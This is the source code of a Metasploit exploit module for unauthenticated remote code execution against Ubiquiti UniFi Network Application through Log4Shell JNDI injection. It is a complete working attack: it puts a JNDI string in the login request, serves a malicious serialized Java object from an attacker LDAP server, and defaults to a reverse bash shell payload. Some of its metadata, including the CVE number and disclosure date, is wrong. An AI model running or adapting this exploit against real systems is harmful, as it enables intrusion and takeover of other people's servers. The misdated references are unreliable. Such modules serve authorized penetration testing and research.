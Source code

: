 ##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::JndiInjection
  include Msf::Exploit::Remote::HttpClient
  prepend Msf::Exploit::Remote::AutoCheck

  def initialize(_info = {})
    super(
      'Name' => 'UniFi Network Application Unauthenticated JNDI Injection RCE (via Log4Shell)',
      'Description' => %q{
        The Ubiquiti UniFi Network Application versions 5.13.29 through 6.5.53 are affected by the Log4Shell
        vulnerability whereby a JNDI string can be sent to the server via the 'remember' field of a POST request to the
        /api/login endpoint that will cause the server to connect to the attacker and deserialize a malicious Java
        object. This results in OS command execution in the context of the server application.

        This module will start an LDAP server that the target will need to connect to.
      },
      'Author' => [
        'Spencer McIntyre', # this exploit module and JNDI/LDAP lib stuff
        'RageLtMan <rageltman[at]sempervictus>', # JNDI/LDAP lib stuff
        'Nicholas Anastasi' # Unifi research
      ],
      'References' => [
        [ 'CVE', '2023-44228' ],
        [ 'URL', 'https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi' ],
        [ 'URL', 'https://github.com/puzzlepeaches/Log4jUnifi' ],
        [ 'URL', 'https://community.ui.com/releases/UniFi-Network-Application-6-5-54/d717f241-48bb-4979-8b10-99db36ddabe1' ]
      ],
      'DisclosureDate' => '2023-03-19',
      'License' => MSF_LICENSE,
      'DefaultOptions' => {
        'RPORT' => 8443,
        'SSL' => true,
        'WfsDelay' => 30
      },
      'DefaultTarget' => 1,
      'Targets' => [
        [
          'Windows', {
            'Platform' => 'win'
          },
        ],
        [
          'Unix', {
            'Platform' => 'unix',
            'Arch' => [ARCH_CMD],
            'DefaultOptions' => {
              'PAYLOAD' => 'cmd/unix/reverse_bash'
            }
          },
        ]
      ],
      'Notes' => {
        'Stability' => [CRASH_SAFE],
        'SideEffects' => [IOC_IN_LOGS],
        'AKA' => ['Log4Shell', 'LogJam'],
        'Reliability' => [REPEATABLE_SESSION]
      }
    )
    register_options([
      OptString.new('TARGETURI', [ true, 'Base path', '/'])
    ])
  end

  def wait_until(&block)
    datastore['WfsDelay'].times do
      break if block.call

      sleep(1)
    end
  end

  def check
    validate_configuration!
    res = send_request_cgi('uri' => normalize_uri(target_uri, 'status'))
    return Exploit::CheckCode::Unknown('No HTTP response was received.') if res.nil?

    server_version = res.get_json_document.dig('meta', 'server_version')
    return Exploit::CheckCode::Safe('The target service does not appear to be running.') unless server_version =~ /(\d+\.)+/

    vprint_status("Detected version: #{server_version}")
    server_version = Rex::Version.new(server_version)
    if server_version < Rex::Version.new('5.13.29')
      return Exploit::CheckCode::Safe('Versions prior to 5.13.29 are not exploitable.')
    elsif server_version > Rex::Version.new('6.5.53')
      return Exploit::CheckCode::Safe('Versions after 6.5.53 are patched and not affected.')
    end

    vprint_status('The target appears to be a vulnerable version, attempting to trigger the vulnerability...')

    start_service
    res = trigger
    return Exploit::CheckCode::Unknown('No HTTP response was received.') if res.nil?

    wait_until { @search_received }
    @search_received ? Exploit::CheckCode::Vulnerable : Exploit::CheckCode::Unknown('No LDAP search query was received.')
  ensure
    stop_service
  end

  def build_ldap_search_response_payload
    return [] if @search_received

    @search_received = true

    return [] unless @exploiting

    print_good('Delivering the serialized Java object to execute the payload...')
    build_ldap_search_response_payload_inline('BeanFactory')
  end

  def trigger
    @search_received = false
    # HTTP request initiator
    send_request_cgi(
      'uri' => normalize_uri(target_uri, 'api', 'login'),
      'method' => 'POST',
      'ctype' => 'application/json',
      'data' => {
        'username' => rand_text_alphanumeric(8..16), # can not be blank!,
        'password' => rand_text_alphanumeric(8..16), # can not be blank!
        'remember' => jndi_string,
        'strict' => true
      }.to_json
    )
  end

  def exploit
    validate_configuration!

    @exploiting = true
    start_service
    res = trigger
    fail_with(Failure::Unreachable, 'Failed to trigger the vulnerability') if res.nil?

    msg = res.get_json_document.dig('meta', 'msg')
    if res.code == 400 && msg == 'api.err.Invalid' # returned by versions before 5.13.29
      fail_with(Failure::NotVulnerable, 'The target is not vulnerable')
    end

    unless res.code == 400 && msg == 'api.err.InvalidPayload' # returned by versions after 5.13.29 (including patched ones)
      fail_with(Failure::UnexpectedReply, 'The server replied to the trigger in an unexpected way')
    end

    wait_until { @search_received && (!handler_enabled? || session_created?) }
    handler
  ensure
    cleanup
  end
end
